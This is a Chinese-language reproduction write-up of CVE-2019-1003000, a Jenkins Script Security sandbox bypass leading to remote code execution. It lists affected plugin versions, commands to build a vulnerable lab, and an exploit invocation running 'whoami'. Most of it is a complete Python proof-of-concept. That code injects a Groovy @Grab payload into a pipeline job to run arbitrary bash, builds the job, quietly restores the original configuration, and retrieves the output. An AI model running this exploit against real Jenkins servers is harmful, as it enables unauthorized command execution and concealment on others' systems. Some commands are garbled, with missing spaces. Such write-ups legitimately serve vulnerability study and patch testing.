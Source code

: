 （CVE-2019-1003000）Jenkins 远程代码执行漏洞
============================================

一、漏洞简介
------------

该漏洞存在于Declarative Plugin 1.3.4.1之前的版本, Groovy Plugin
2.61.1之前的版本以及 Script Security Plugin
1.50之前的版本。该漏洞通过将AST转换注释（如\@Grab）应用于源代码元素，可以在脚本编译阶段避免脚本安全沙箱保护。所以会造成具有"Overall/Read"权限的用户或能够控制SCM中的Jenkinsfile或者sandboxed
Pipeline共享库内容的用户可以绕过沙盒保护并在Jenkins主服务器上执行任意代码。

二、漏洞影响
------------

Declarative Plugin \< 1.3.4.1

Groovy Plugin \< 2.61.1

Script Security Plugin \< 1.50

三、复现过程
------------

### 环境搭建

    gitclone https://github.com/ianxtianxt/cve-2019-1003000-jenkins-rce-poc.git

    cdcve-2019-1003000-jenkins-rce-poc

    pipinstall -r requirements.txt

    cdsample-vuln

    ./run.sh

**输入账号密码user1:user1**

![](resource/(CVE-2019-1003000)Jenkins远程代码执行漏洞/media/rId25.png)

***\*poc进行攻击pythonexploit.py --url http://www.0-sec.org:8080 --job
my-pipeline --usernameuser1 --password user1 --cmd "whoami"\****

![](resource/(CVE-2019-1003000)Jenkins远程代码执行漏洞/media/rId26.png)

![](resource/(CVE-2019-1003000)Jenkins远程代码执行漏洞/media/rId27.png)

### poc

    #!/usr/bin/python

    # Author: Adam Jordan
    # Date: 2019-02-15
    # Repository: https://github.com/adamyordan/cve-2019-1003000-jenkins-rce-poc
    # PoC for: SECURITY-1266 / CVE-2019-1003000 (Script Security), CVE-2019-1003001 (Pipeline: Groovy), CVE-2019-1003002 (Pipeline: Declarative)


    import argparse
    import jenkins
    import time
    from xml.etree import ElementTree

    payload = '''
    import org.buildobjects.process.ProcBuilder
    @Grab('org.buildobjects:jproc:2.2.3')
    class Dummy{ }
    print new ProcBuilder("/bin/bash").withArgs("-c","%s").run().getOutputString()
    '''


    def run_command(url, cmd, job_name, username, password):
        print '[+] connecting to jenkins...'
        server = jenkins.Jenkins(url, username, password)

        print '[+] crafting payload...'
        ori_job_config = server.get_job_config(job_name)
        et = ElementTree.fromstring(ori_job_config)
        et.find('definition/script').text = payload % cmd
        job_config = ElementTree.tostring(et, encoding='utf8', method='xml')

        print '[+] modifying job with payload...'
        server.reconfig_job(job_name, job_config)
        time.sleep(3)

        print '[+] putting job build to queue...'
        queue_number = server.build_job(job_name)
        time.sleep(3)

        print '[+] waiting for job to build...'
        queue_item_info = {}
        while 'executable' not in queue_item_info:
            queue_item_info = server.get_queue_item(queue_number)
            time.sleep(1)

        print '[+] restoring job...'
        server.reconfig_job(job_name, ori_job_config)
        time.sleep(3)

        print '[+] fetching output...'
        last_build_number = server.get_job_info(job_name)['lastBuild']['number']
        console_output = server.get_build_console_output(job_name, last_build_number)

        print '[+] OUTPUT:'
        print console_output


    if __name__ == '__main__':
        parser = argparse.ArgumentParser(description='Jenkins RCE')

        parser.add_argument('--url', help='target jenkins url')
        parser.add_argument('--cmd', help='system command to be run')
        parser.add_argument('--job', help='job name')
        parser.add_argument('--username', help='username')
        parser.add_argument('--password', help='password')

        args = parser.parse_args()

        run_command(args.url, args.cmd, args.job, args.username, args.password)

参考链接
--------

> https://www.freebuf.com/column/197026.html
